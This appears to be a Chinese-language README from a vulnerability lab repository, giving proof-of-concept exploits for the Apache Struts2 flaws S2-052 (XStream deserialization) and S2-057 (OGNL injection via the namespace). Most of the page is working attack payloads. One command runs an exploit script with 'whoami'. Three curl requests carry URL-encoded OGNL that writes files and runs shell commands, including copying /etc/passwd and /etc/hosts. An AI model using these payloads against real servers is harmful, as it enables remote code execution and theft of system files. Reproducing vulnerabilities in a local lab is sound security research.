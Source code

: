## S2-052 xtream 反序列化漏洞

测试镜像

* src/struts/2.5.12/

Poc

```
python s2-052.py -u http://127.0.0.1:8080/struts2-rest-showcase/orders/3 -c whoami
```

## S2-057 struts namespace OGNL 代码执行漏洞

说明

* namespace 里可以出现 `/`，无需编码

测试镜像

* src/struts/2.3.20

参考资料

* [St2-057 Poc Example](https://github.com/jas502n/St2-057)
* [【Struts2-代码执行漏洞分析系列】S2-057](https://xz.aliyun.com/t/2618)

Poc

```
// FileOutputStream
curl 'http://127.0.0.1/struts2-showcase/%24%7b(%23_memberAccess=%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23f=new%20java.io.FileOutputStream(%27/tmp/hello.txt%27),%23f.write(new%20sun.misc.BASE64Decoder().decodeBuffer(%27aGVsbG8K%27)),%23f.close())%7d/actionChain1.action'

// Runtime.exec
curl 'http://127.0.0.1/struts2-showcase/%24%7b(%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%2C%40java.lang.Runtime%40getRuntime().exec(%27cp%20/etc/passwd%20/tmp%27))%7d/actionChain1.action'

// ProcessBuilder.start
curl 'http://127.0.0.1/struts2-showcase/%24%7b(%23_memberAccess=%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,%23cmd=%7B%27/bin/bash%27,%27-c%27,%27cp%20/etc/hosts%20/tmp%27%7D,%23p=new%20java.lang.ProcessBuilder(%23cmd),%23p.start())%7d/actionChain1.action'

ls -lah /tmp/passwd
```

